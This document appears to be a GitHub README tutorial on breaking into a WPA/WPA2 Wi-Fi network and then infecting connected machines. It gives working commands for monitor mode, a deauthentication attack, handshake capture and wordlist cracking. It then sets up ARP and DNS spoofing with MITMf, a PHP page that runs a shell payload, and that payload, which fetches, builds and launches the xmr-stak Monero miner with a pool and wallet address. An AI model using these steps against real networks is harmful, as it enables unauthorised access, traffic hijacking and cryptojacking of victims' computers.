 # Gaining access to WPA/WPA2 with short/easy password and inject mining script
## Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   1. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   2. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.
7. Compare the captured MIC with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
## Part 2. Injecting malicious script to victim machine.
The general idea is to use MITM attack and do DNS spoofing. When the victim visites google.com, I will redirect him to php file under my server and execute the payload
1. Install MITMf
```
cd ~;git clone https://github.com/byt3bl33d3r/MITMf; cd MITMf/;git submodule init && git submodule update --recursive
```
2. Change the /etc/mitmf/mitmf.conf file, add the following line below the IPv4 address record line
```
*.illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
www.illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
```
3. Create the php file, Code I used is 
```
<?php
$result = shell_exec('/var/www/html/payload.sh');
echo $result;
?>
<a href="https://www.google.com">Continue to Google</a>
```
3.1 Make sure index.php has highest priority in apache2 (over index.html)
4. Code i used for payload.sh is 
```
#!/bin/bash
(sudo su;
echo -ne "\n" | sudo add-apt-repository ppa:ubuntu-toolchain-r/test;
sudo apt update;
echo -ne "Y\n" | sudo apt install gcc-5 g++-5 make;
sudo update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-5 1 --slave /usr/bin/g++ g++ /usr/bin/g++-5;
curl -L http://www.cmake.org/files/v3.4/cmake-3.4.1.tar.gz | tar -xvzf - -C /tmp/;
cd /tmp/cmake-3.4.1/ && ./configure && make && sudo make install && cd -;
sudo update-alternatives --install /usr/bin/cmake cmake /usr/local/bin/cmake 1 --force;
echo -ne 'y\n' | sudo apt install libmicrohttpd-dev libssl-dev libhwloc-dev;
git clone https://github.com/fireice-uk/xmr-stak.git;
mkdir xmr-stak/build; cd xmr-stak/build;
cmake .. -DCUDA_ENABLE=OFF -DOpenCL_ENABLE=OFF;
make install;cd bin;
echo -ne "n\n0\nmonero\npool.supportxmr.com:3333\n42AxakojAJUjjYPJbx7Jd5gD2SQHMF8yu4DyHh5GckqcWVmw4e3GPchJ35UR9XQzoCSaFbwBU2JQP993HyE6QDFtC4UdNKr\n\nN\nN\nN\n" | ./xmr-stak)&
echo "your network is being controlled, click here to "
```
5. find the target IP and gateway IP
```
netdiscover -i wlan0 192.168.1.1/24
```
5. run dns spoofing on kali and all done!
```
cd ~/MITMf; python mitmf.py --arp --spoof -i wlan0 --target TARGET_IP --gateway GATEWAY_IP --dns
```
I tested under my home network on my linux laptop, it is working.
